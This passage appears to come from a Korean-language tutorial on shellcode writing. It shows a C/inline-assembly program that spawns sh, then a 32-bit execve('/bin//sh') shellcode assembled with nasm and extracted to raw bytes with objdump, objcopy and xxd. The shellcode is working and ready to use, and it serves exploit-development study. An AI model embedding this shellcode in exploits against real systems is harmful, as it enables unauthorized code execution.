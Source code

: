 ```C
"syscall\n"

"xor rdi, rdi"
"mov rax, 0x3c"
"syscall");

void run_sh();

int main() { run_sh(); }
```

이를 컴파일하여 실행해보면 성공적으로 sh가 실행되는 것을 알 수 있다.

### objdump 를 이용한 shellcode 추출
다음과 같은 과정을 통해 작성한 셸코드를 바이트 코드(byte code, opcode)로 추출할 수 있다.

```asm
; File name: shellcode.asm

section .text
global _start
_start:
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0xb
int 0x80
```

```zsh
╭─kakunge@ubuntu ~/Documents/stage4 
╰─$ nasm -f elf shellcode.asm
╭─kakunge@ubuntu ~/Documents/stage4 
╰─$ objdump -d shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
╭─kakunge@ubuntu ~/Documents/stage4 
╰─$ objcopy --dump-section .text=shellcode.bin shellcode.o
╭─kakunge@ubuntu ~/Documents/stage4 
╰─$ xxd shellcode.bin 
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....
```
